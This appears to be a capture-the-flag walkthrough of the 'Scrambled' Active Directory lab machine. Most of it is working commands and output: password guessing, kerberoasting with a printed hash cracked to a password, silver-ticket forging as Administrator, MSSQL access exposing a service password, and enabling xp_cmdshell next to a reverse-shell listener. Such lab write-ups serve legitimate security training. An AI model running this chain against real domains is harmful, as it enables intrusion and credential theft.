




# Scrambled
## Host file setup
```python
sudo nxc smb 10.129.20.49 --generate-hosts-file /etc/hosts 
[sudo] password for kali: 
SMB         10.129.20.49    445    DC1              [*]  x64 (name:DC1) (domain:scrm.local) (signing:True) (SMBv1:None) (NTLM:False)
```
- NTLM auth is disabled
- SMB signing is enabled

## System time
```python
ntpdate -q dc1.scrm.local                  
2026-04-16 16:21:42.183812 (+0100) -0.237305 +/- 0.006528 dc1.scrm.local 10.129.20.49 s1 no-leap
```
Since NTLM auth is disabled ill have to use kerberos auth
## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT dc1.scrm.local                                                                 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-16 16:18 +0100
Nmap scan report for dc1.scrm.local (10.129.20.49)
Host is up (0.013s latency).
rDNS record for 10.129.20.49: DC1.scrm.local
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
4411/tcp  open  found
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49701/tcp open  unknown
49712/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 66.79 seconds
```
MS-SQL is open

### Nmap
```python
nmap -p 53,80,88,135,139,389,445,464,593,636,1433,3268,3269,4411,5985,9389 -A --min-rate=2000 -sT dc1.scrm.local
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-16 16:21 +0100
Nmap scan report for dc1.scrm.local (10.129.20.49)
Host is up (0.015s latency).
rDNS record for 10.129.20.49: DC1.scrm.local

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Scramble Corp Intranet
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-16 15:21:12Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: scrm.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC1.scrm.local
| Not valid before: 2024-09-04T11:14:45
|_Not valid after:  2121-06-08T22:39:53
|_ssl-date: 2026-04-16T15:24:24+00:00; 0s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scrm.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC1.scrm.local
| Not valid before: 2024-09-04T11:14:45
|_Not valid after:  2121-06-08T22:39:53
|_ssl-date: 2026-04-16T15:24:24+00:00; 0s from scanner time.
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-04-16T15:16:09
|_Not valid after:  2056-04-16T15:16:09
| ms-sql-info: 
|   10.129.20.49:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2026-04-16T15:24:24+00:00; 0s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: scrm.local, Site: Default-First-Site-Name)
|_ssl-date: 2026-04-16T15:24:24+00:00; 0s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC1.scrm.local
| Not valid before: 2024-09-04T11:14:45
|_Not valid after:  2121-06-08T22:39:53
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scrm.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC1.scrm.local
| Not valid before: 2024-09-04T11:14:45
|_Not valid after:  2121-06-08T22:39:53
|_ssl-date: 2026-04-16T15:24:24+00:00; 0s from scanner time.
4411/tcp open  found?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, NCP, NULL, NotesRPC, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|     SCRAMBLECORP_ORDERS_V1.0.3;
|   FourOhFourRequest, GetRequest, HTTPOptions, Help, LPDString, RTSPRequest, SIPOptions: 
|     SCRAMBLECORP_ORDERS_V1.0.3;
|_    ERROR_UNKNOWN_COMMAND;
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB (445)
Since NTLM auth is disabled null auth is not a possibility

Guest account appears to be disabled

## HTTP (80)



- User `ksimpson`
- User `support`



This form looks like it allows me to create another user

There is also a reference to a sales app and port 4411



I could try `ksimpson:ksimpson` 

## Compromising `ksimpson`
```python
faketime '16:44:35.396530' nxc ldap dc1.scrm.local -u 'ksimpson' -p 'ksimpson' -k                
LDAP        dc1.scrm.local  389    DC1              [*] None (name:DC1) (domain:scrm.local) (signing:None) (channel binding:Never) (NTLM:False)
LDAP        dc1.scrm.local  389    DC1              [+] scrm.local\ksimpson:ksimpson
```
This user is compromised

### Access as `ksimpson`
#### Shares
```python
faketime '16:50:07.318311' nxc smb dc1.scrm.local -u 'ksimpson' -p 'ksimpson' -k --shares
SMB         dc1.scrm.local  445    dc1              [*]  x64 (name:dc1) (domain:scrm.local) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc1.scrm.local  445    dc1              [+] scrm.local\ksimpson:ksimpson 
SMB         dc1.scrm.local  445    dc1              [*] Enumerated shares
SMB         dc1.scrm.local  445    dc1              Share           Permissions     Remark
SMB         dc1.scrm.local  445    dc1              -----           -----------     ------
SMB         dc1.scrm.local  445    dc1              ADMIN$                          Remote Admin
SMB         dc1.scrm.local  445    dc1              C$                              Default share
SMB         dc1.scrm.local  445    dc1              HR                              
SMB         dc1.scrm.local  445    dc1              IPC$            READ            Remote IPC
SMB         dc1.scrm.local  445    dc1              IT                              
SMB         dc1.scrm.local  445    dc1              NETLOGON        READ            Logon server share 
SMB         dc1.scrm.local  445    dc1              Public          READ            
SMB         dc1.scrm.local  445    dc1              Sales                           
SMB         dc1.scrm.local  445    dc1              SYSVOL          READ            Logon server share
```
Read access on a few shares

#### Users
```python
faketime '16:50:07.318311' nxc smb dc1.scrm.local -u 'ksimpson' -p 'ksimpson' -k --users-export users.txt
SMB         dc1.scrm.local  445    dc1              [*]  x64 (name:dc1) (domain:scrm.local) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc1.scrm.local  445    dc1              [+] scrm.local\ksimpson:ksimpson 
SMB         dc1.scrm.local  445    dc1              -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         dc1.scrm.local  445    dc1              administrator                 2021-11-08 00:35:59 0       Built-in account for administering the computer/domain 
SMB         dc1.scrm.local  445    dc1              Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         dc1.scrm.local  445    dc1              krbtgt                        2020-01-26 19:15:47 0       Key Distribution Center Service Account 
SMB         dc1.scrm.local  445    dc1              tstar                         2021-11-05 14:55:51 0        
SMB         dc1.scrm.local  445    dc1              asmith                        2020-02-08 22:29:01 0        
SMB         dc1.scrm.local  445    dc1              sjenkins                      2020-02-08 23:11:26 0        
SMB         dc1.scrm.local  445    dc1              sdonington                    2020-02-08 23:11:54 0        
SMB         dc1.scrm.local  445    dc1              backupsvc                     2021-10-31 20:49:04 0       Backup system service 
SMB         dc1.scrm.local  445    dc1              jhall                         2021-10-31 21:09:23 0        
SMB         dc1.scrm.local  445    dc1              rsmith                        2021-10-31 21:09:54 0        
SMB         dc1.scrm.local  445    dc1              ehooker                       2021-11-03 19:02:41 0        
SMB         dc1.scrm.local  445    dc1              khicks                        2021-11-01 15:36:08 0        
SMB         dc1.scrm.local  445    dc1              sqlsvc                        2021-11-03 16:32:02 0       SQL server 
SMB         dc1.scrm.local  445    dc1              miscsvc                       2021-11-03 18:07:47 0       Miscellaneous scheduled tasks and services 
SMB         dc1.scrm.local  445    dc1              ksimpson                      2021-11-04 00:30:57 0        
SMB         dc1.scrm.local  445    dc1              [*] Enumerated 15 local users: SCRM
SMB         dc1.scrm.local  445    dc1              [*] Writing 15 local users to users.txt
```

## `Public` SMB share
```python
faketime '16:56:27.733020' impacket-smbclient scrm.local/ksimpson:ksimpson@dc1.scrm.local -k
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
Type help for list of commands
# shares
ADMIN$
C$
HR
IPC$
IT
NETLOGON
Public
Sales
SYSVOL
# use Public
# ls
drw-rw-rw-          0  Thu Nov  4 22:23:19 2021 .
drw-rw-rw-          0  Thu Nov  4 22:23:19 2021 ..
-rw-rw-rw-     630106  Fri Nov  5 17:45:07 2021 Network Security Changes.pdf
```
Found a .pdf file



This screenshot give me a hint towards kerberos exploitation 

Im initially thinking kerberoasting

## Kerberoasting leads to user compromise
```python
faketime '17:00:04.247916' nxc ldap dc1.scrm.local -u 'ksimpson' -p 'ksimpson' --kerberoast kerb.hashes -k
LDAP        dc1.scrm.local  389    DC1              [*] None (name:DC1) (domain:scrm.local) (signing:None) (channel binding:Never) (NTLM:False)
LDAP        dc1.scrm.local  389    DC1              [+] scrm.local\ksimpson:ksimpson 
LDAP        dc1.scrm.local  389    DC1              [*] Skipping disabled account: krbtgt
LDAP        dc1.scrm.local  389    DC1              [*] Total of records returned 1
LDAP        dc1.scrm.local  389    DC1              [*] sAMAccountName: sqlsvc, memberOf: [], pwdLastSet: 2021-11-03 16:32:02.351452, lastLogon: 2026-04-16 16:16:06.204291
LDAP        dc1.scrm.local  389    DC1              $krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local\sqlsvc*$dffd3c2d78236c1f89641d64b739d126$1a1ec39e3cf7b769e59e04b5f7580b560f8374866f2172c37b3fbed199adb9e4f9f8fe4fd2b5dd280e6d78a71317efabd3b9d6882f47848799bea6e6b70ffc2656d8f5284e78437a53fdbc04d007d8aa2b7d514fae8293e98e35f65d5c67d3f7b371c6e37e63aa166a9b930e21d6aa1e5001d2d64add37753065a901de77ac40ded97ad1124c5c708a74b554a56ac95c6e05adea3a386b2eacad18d4ddb84473e4a481e3808b2833549efd8e32d42396ef3aacf4fb374bb8b178ba812fe7a9c76a916aabbf4f996bb77b885e91b3e49a016a96e28bf87e35ccf4390c1d2082367512a06b484f57cda4a8a405305981270776202c80402ded593b7db3f72c0005f78e2521396f0ed153c1c4cf19dfc7156c69190527194fb3212fa69f24dc308ad29f14cd232ab6b11a4d933bb0d467df0e065a15c55ddac0ded3a3ef358a7ea1682258fb9f5afd29933fae77ec46d285bf1633e41570cad60cf73a9789d5049c76f98842373f77336910a0ebaa714555ddce7b6a86df96c1c2c1da3c572f89d49caa00ee50139c558d77f219666cb1cc7f715dd30915d560d835a6b8c24d18e10e19e083c6b9190fc219a3d3a19410479c0b9a5025453315b159de4a17a3e93faa6f068a475fdfbb820a2ccc850ede0f37e533b61159d33ddaebeaa1080f09caaabd51001bc66a5d1a57881fedf17a7ef4acf7eeab40283f3340804a13ff98e64a4d042776efdae3066609d256968bd489be4b198891d338a1b0e0421477eb6d301512af697994889e1b09da7740a847f092d812af1394672d5b09528a6ca681eab56fb70d162b446a62e139596cf6f63edc3f74e768cbb5c41e32fd482aa3ceb07e21960f03567ddcf01fda0f1689a3c53b458d7b80ddeebd0061eb407db114db11aff60e02d859ff6f7d7188f4868ba7d38b68398f6cdd551b7cfd6d17ed7df40b5d55656e92ebe67a0599d0485565076c0d9dbd09714b30a32ac295748abd53f8f277ee0705ea0993b48b23112865d3565d1faebc357962f2a23d571e98b6c52c34070602f026b4db43bd0daf0bbba71e47d55650c7aa4a4c82437f941aaca25b55ef8ed4c82a62ace441328c02df844c84eb94e523c8d9c4ef4eef2f9a0e2351199d100ca7482124ea9a96255ed5f14bc5b0eea28eee1ee30706b617a0bbaeaf0410bee142fc75c845136f6b6613d3b64d9f0a14893d8c7dc02488c5ba8b2e2e9c185d788c1fdc6150fd6f6b0a7346996199efc7a19ab0e995c824d28aae2eb05ecfedbbc6e1a63e92356cc88e638027bab73b76a9d1848c4588d64bc48f4726480b7a44e30d5032a7df5434ba751de71f3bcf140e19df9365c7fd27ca0a7d294e38bd8efbdbdd77e3794ca5258159cae7022c61055219138cebdd6b2cde99f491ee94814a7ca355a4c0a2bb8874006f23fc9e35223c7509b5
```

### Cracking the hash
```python
hashcat kerb.hashes /usr/share/wordlists/rockyou.txt

$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local\sqlsvc*$dffd3c2d78236c1f89641d64b739d126$1a1ec39e3cf7b769e59e04b5f7580b560f8374866f2172c37b3fbed199adb9e4f9f8fe4fd2b5dd280e6d78a71317efabd3b9d6882f47848799bea6e6b70ffc2656d8f5284e78437a53fdbc04d007d8aa2b7d514fae8293e98e35f65d5c67d3f7b371c6e37e63aa166a9b930e21d6aa1e5001d2d64add37753065a901de77ac40ded97ad1124c5c708a74b554a56ac95c6e05adea3a386b2eacad18d4ddb84473e4a481e3808b2833549efd8e32d42396ef3aacf4fb374bb8b178ba812fe7a9c76a916aabbf4f996bb77b885e91b3e49a016a96e28bf87e35ccf4390c1d2082367512a06b484f57cda4a8a405305981270776202c80402ded593b7db3f72c0005f78e2521396f0ed153c1c4cf19dfc7156c69190527194fb3212fa69f24dc308ad29f14cd232ab6b11a4d933bb0d467df0e065a15c55ddac0ded3a3ef358a7ea1682258fb9f5afd29933fae77ec46d285bf1633e41570cad60cf73a9789d5049c76f98842373f77336910a0ebaa714555ddce7b6a86df96c1c2c1da3c572f89d49caa00ee50139c558d77f219666cb1cc7f715dd30915d560d835a6b8c24d18e10e19e083c6b9190fc219a3d3a19410479c0b9a5025453315b159de4a17a3e93faa6f068a475fdfbb820a2ccc850ede0f37e533b61159d33ddaebeaa1080f09caaabd51001bc66a5d1a57881fedf17a7ef4acf7eeab40283f3340804a13ff98e64a4d042776efdae3066609d256968bd489be4b198891d338a1b0e0421477eb6d301512af697994889e1b09da7740a847f092d812af1394672d5b09528a6ca681eab56fb70d162b446a62e139596cf6f63edc3f74e768cbb5c41e32fd482aa3ceb07e21960f03567ddcf01fda0f1689a3c53b458d7b80ddeebd0061eb407db114db11aff60e02d859ff6f7d7188f4868ba7d38b68398f6cdd551b7cfd6d17ed7df40b5d55656e92ebe67a0599d0485565076c0d9dbd09714b30a32ac295748abd53f8f277ee0705ea0993b48b23112865d3565d1faebc357962f2a23d571e98b6c52c34070602f026b4db43bd0daf0bbba71e47d55650c7aa4a4c82437f941aaca25b55ef8ed4c82a62ace441328c02df844c84eb94e523c8d9c4ef4eef2f9a0e2351199d100ca7482124ea9a96255ed5f14bc5b0eea28eee1ee30706b617a0bbaeaf0410bee142fc75c845136f6b6613d3b64d9f0a14893d8c7dc02488c5ba8b2e2e9c185d788c1fdc6150fd6f6b0a7346996199efc7a19ab0e995c824d28aae2eb05ecfedbbc6e1a63e92356cc88e638027bab73b76a9d1848c4588d64bc48f4726480b7a44e30d5032a7df5434ba751de71f3bcf140e19df9365c7fd27ca0a7d294e38bd8efbdbdd77e3794ca5258159cae7022c61055219138cebdd6b2cde99f491ee94814a7ca355a4c0a2bb8874006f23fc9e35223c7509b5:Pegasus60
```
The hash cracked

```python
sqlsvc:Pegasus60
```
Ill validate these credentials

```python
faketime '17:00:04.247916' nxc ldap dc1.scrm.local -u 'sqlsvc' -p 'Pegasus60' -k                  
LDAP        dc1.scrm.local  389    DC1              [*] None (name:DC1) (domain:scrm.local) (signing:None) (channel binding:Never) (NTLM:False)
LDAP        dc1.scrm.local  389    DC1              [+] scrm.local\sqlsvc:Pegasus60
```
This user is compromised, since this is a sql service account it is likely that i can login to mssql

For some odd reason it is not letting me authenticate to the service

Now looking back at the PDF access has been restricted on it only administrators can access

## Silver ticket to access database
Since only admins can access the database ill forge a ticket as an administrator

First ill get the NTLM hash of `Pegasus60

https://www.browserling.com/tools/ntlm-hash

I can use the above website to do this

```python
B999A16500B87D17EC7F2E2A68778F05
```
This is the output

```python
impacket-lookupsid -hashes ':B999A16500B87D17EC7F2E2A68778F05' 'scrm.local/sqlsvc@dc1.scrm.local' 0 -k
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at dc1.scrm.local
[*] StringBinding ncacn_np:dc1.scrm.local[\pipe\lsarpc]
[-] CCache file is not found. Skipping...
[*] Domain SID is: S-1-5-21-2743207045-1827831105-2542523200
```
Next ill get the domain SID

```python
impacket-GetUserSPNs scrm.local/sqlsvc:Pegasus60@dc1.scrm.local -k -no-pass -dc-host dc1.scrm.local
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-03 16:32:02.351452  2026-04-16 17:41:22.552844             
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-03 16:32:02.351452  2026-04-16 17:41:22.552844
```
Then ill garb the accounts SPN

```python
impacket-ticketer -nthash 'B999A16500B87D17EC7F2E2A68778F05' -domain-sid 'S-1-5-21-2743207045-1827831105-2542523200' -domain 'scrm.local' -spn 'MSSQLSvc/dc1.scrm.local' 'Administrator'             
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for scrm.local/Administrator
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Saving ticket in Administrator.ccache
```
I now have an administrator ticket so i should be able to authenticate to mssql

```python
export KRB5CCNAME=Administrator.ccache
```
Ill export this

```python
faketime '17:49:16.173442' impacket-mssqlclient -k -no-pass dc1.scrm.local
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC1): Line 1: Changed database context to 'master'.
[*] INFO(DC1): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2019 RTM (15.0.2000)
[!] Press help for extra shell commands
SQL (SCRM\administrator  dbo@master)> 
```
I now have access to the database

```python
SQL (SCRM\administrator  dbo@master)> select name from master..sysdatabases;
name         
----------   
master       
tempdb       
model        
msdb         
ScrambleHR   
SQL (SCRM\administrator  dbo@master)> 
```
Non default database `ScrambleHR`

```python
SQL (SCRM\administrator  dbo@master)> USE ScrambleHR
ENVCHANGE(DATABASE): Old Value: master, New Value: ScrambleHR
INFO(DC1): Line 1: Changed database context to 'ScrambleHR'.
SQL (SCRM\administrator  dbo@ScrambleHR)> SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE'
TABLE_NAME   
----------   
Employees    
UserImport   
Timesheets   
```
3 tables

```python
SQL (SCRM\administrator  dbo@ScrambleHR)> SELECT * FROM UserImport
LdapUser   LdapPwd             LdapDomain   RefreshInterval   IncludeGroups   
--------   -----------------   ----------   ---------------   -------------   
MiscSvc    ScrambledEggs9900   scrm.local                90               0 
```
Found password for another service account

Nothing in the other databases

## Compromising `miscsvc`

```python
faketime '17:57:47.260372' nxc smb dc1.scrm.local -u 'miscsvc' -p 'ScrambledEggs9900' -k                            
SMB         dc1.scrm.local  445    dc1              [*]  x64 (name:dc1) (domain:scrm.local) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc1.scrm.local  445    dc1              [+] scrm.local\miscsvc:ScrambledEggs9900
```
This user is compromised

### Access as `miscsvc`
```python
faketime '17:57:47.260372' nxc smb dc1.scrm.local -u 'miscsvc' -p 'ScrambledEggs9900' -k --shares
SMB         dc1.scrm.local  445    dc1              [*]  x64 (name:dc1) (domain:scrm.local) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc1.scrm.local  445    dc1              [+] scrm.local\miscsvc:ScrambledEggs9900 
SMB         dc1.scrm.local  445    dc1              [*] Enumerated shares
SMB         dc1.scrm.local  445    dc1              Share           Permissions     Remark
SMB         dc1.scrm.local  445    dc1              -----           -----------     ------
SMB         dc1.scrm.local  445    dc1              ADMIN$                          Remote Admin
SMB         dc1.scrm.local  445    dc1              C$                              Default share
SMB         dc1.scrm.local  445    dc1              HR                              
SMB         dc1.scrm.local  445    dc1              IPC$            READ            Remote IPC
SMB         dc1.scrm.local  445    dc1              IT              READ            
SMB         dc1.scrm.local  445    dc1              NETLOGON        READ            Logon server share 
SMB         dc1.scrm.local  445    dc1              Public          READ            
SMB         dc1.scrm.local  445    dc1              Sales                           
SMB         dc1.scrm.local  445    dc1              SYSVOL          READ            Logon server share
```
I now have access to the `IT` share

```python
faketime '18:02:03.913170' impacket-smbclient scrm.local/miscsvc:'ScrambledEggs9900'@dc1.scrm.local -k -no-pass
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
Type help for list of commands
# shares
ADMIN$
C$
HR
IPC$
IT
NETLOGON
Public
Sales
SYSVOL
# use IT
# ls
drw-rw-rw-          0  Wed Nov  3 19:32:55 2021 .
drw-rw-rw-          0  Wed Nov  3 19:32:55 2021 ..
drw-rw-rw-          0  Wed Nov  3 21:06:32 2021 Apps
drw-rw-rw-          0  Wed Nov  3 19:32:44 2021 Logs
drw-rw-rw-          0  Wed Nov  3 19:32:55 2021 Reports
# cd Apps
# ls
drw-rw-rw-          0  Wed Nov  3 21:06:32 2021 .
drw-rw-rw-          0  Wed Nov  3 21:06:32 2021 ..
drw-rw-rw-          0  Fri Nov  5 20:57:08 2021 Sales Order Client
# cd Sales Order Client
# ls
drw-rw-rw-          0  Fri Nov  5 20:57:08 2021 .
drw-rw-rw-          0  Fri Nov  5 20:57:08 2021 ..
-rw-rw-rw-      86528  Fri Nov  5 20:57:08 2021 ScrambleClient.exe
-rw-rw-rw-      19456  Fri Nov  5 20:57:08 2021 ScrambleLib.dll
# get ScrambleClient.exe
# get ScrambleLib.dll
```
The other folders `Logs` and `Reports` dont contain anything interesting

These files dont seem to hold anything interesting

## Shell as `sqlsvc`
Since i am the administrator on the database i can enable xp_cmdshell

```python
SQL (SCRM\administrator  dbo@master)> enable_xp_cmdshell
INFO(DC1): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
INFO(DC1): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (SCRM\administrator  dbo@master)> xp_cmdshell whoami
output        
-----------   
scrm\sqlsvc   
NULL          
```
Ive re-enabled xp_cmdshell

```python
penelope -p 1337                                                                                                                         
[+] Listening for reverse shells on 0.0.0.0:1337 -> 127.0.0.1 • 192.168.1.157 • 10.10.14.90
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```
Ill set a listener

```python
SQL (SCRM\administrator  dbo@ScrambleHR)> xp_cmdshell whoami /priv
output                                                                             
--------------------------------------------------------------------------------   
NULL                                                                               
PRIVILEGES INFORMATION                                                             
----------------------                                                             
NULL                                                                               
Privilege Name                Description                               State      
============================= ========================================= ========   
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
SeMachineAccountPrivilege     Add workstations to domain                Disabled   
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
